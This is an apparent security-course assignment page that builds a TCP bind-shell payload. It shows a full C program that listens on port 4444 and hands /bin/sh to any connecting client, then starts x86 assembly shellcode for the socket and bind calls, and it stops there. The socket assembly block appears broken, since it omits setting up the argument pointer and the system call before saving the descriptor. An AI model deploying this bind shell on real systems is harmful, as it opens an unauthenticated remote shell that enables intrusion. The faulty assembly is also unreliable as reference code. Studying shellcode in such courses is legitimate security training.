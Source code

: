 ```yaml
---
title:  Assignment 1
description: Create a Shell Bind TCP shellcode
order: 1
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

Before we dive into assembly, let's first write a simple program in c to model the functionality.

```c
/* bind_tcp_model.c
 *  - Bind to a socket, listen for a connection, provide shell.
 */

#include <sys/socket.h>	// socket, AF_INET, SOCK_STREAM
#include <unistd.h>	// dup2
#include <netinet/in.h>	// sockaddr, htons, INADDR_ANY

int main() {
	int port = 4444;
	int sockfd, connfd;
	struct sockaddr_in sockaddr;

	// Build socket

	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// Bind to socket

	sockaddr.sin_family = AF_INET;
	sockaddr.sin_port = htons(port);
	sockaddr.sin_addr.s_addr = INADDR_ANY;

	bind(sockfd, (struct sockaddr *) &sockaddr, sizeof(sockaddr));

	// Listen on socket

	listen(sockfd, 0);

	// Accept a connection

	connfd = accept(sockfd, 0, 0);

	// Route i/o through connection

	dup2(connfd, 0);
	dup2(connfd, 1);
	dup2(connfd, 2);

	// Execute /bin/sh

	execve("/bin/sh", 0, 0);

	return 0;
}

```

Since the first step is creating a socket, let's look at the syscall *socketcall*, **102**.
```c
int socketcall(int call, unsigned long *args);
```
The syscall *socketcall* seems to accept a *call* parameter, so we'll take a look at those too.
```bash
> grep SYS_ /usr/include/linux/net.h

#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	2		/* sys_bind(2)			*/
#define SYS_CONNECT	3		/* sys_connect(2)		*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
...
```

To create a socket we'll need SYS_SOCKET, **1**, which from our c model we know takes the following form:
```c
int socket(int domain, int type, int protocol);
```

Let's try to put all this down in assembly.

```nasm
; bind_shell_tcp.nasm
;  - Bind to a socket, listen for a connection, provide shell.

global _start

section .text
_start:
        ; int socketcall(int call, unsigned long *args)
        ; int socket(int domain, int type, int protocol)
        ; eax = 0x66 (socketcall)
        ; ebx = 0x01 (socket)
        ; ecx = esp
        ; esp => |0x00000002|0x00000001|0x00000000|
        ;          AF_INET  SOCK_STREAM    null

        xor eax, eax
        mov al, 0x66
        xor ecx, ecx
        push ecx
        inc ecx
        push ecx
        xor ebx, ebx
        mov bl, cl
        inc ecx
        push ecx
	
	mov esi, eax    ; save sockfd
        add esp, 0x10   ; clean stack

```

Great!  Now let's try the same process for *bind*.

```nasm
	; int socketcall(int call, unsigned long *args)
        ; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen) 
        ; struct sockaddr_in {short int sin_family, unsigned short int sin_port, struct in_addr sin_addr, 0}
        ; eax = 0x66 (socketcall)
        ; ebx = 0x02 (bind)
        ; ecx = esp      
        ; esp => |----------|-[esp +24]-|0x00000018|0x0002|0x115C|0x00000000|0x00000000|
        ;           sockfd       addr     addrlen  AF_INET  port  INADDR_ANY  

        xor eax, eax
        mov al, 0x66
        xor ebx, ebx
        mov bl, 0x2
        xor ecx, ecx
        push ecx
        push word 0x5c11  
        push word 0x2
        mov edi, esp
        push 0x18
        push edi
        push esi
        mov ecx, esp
        int 0x80

        add esp, 0x38   ; clean stack
```

<br>
{% include preamble.md %}


[&lt;&lt; Go Back]({{ site.baseurl }})
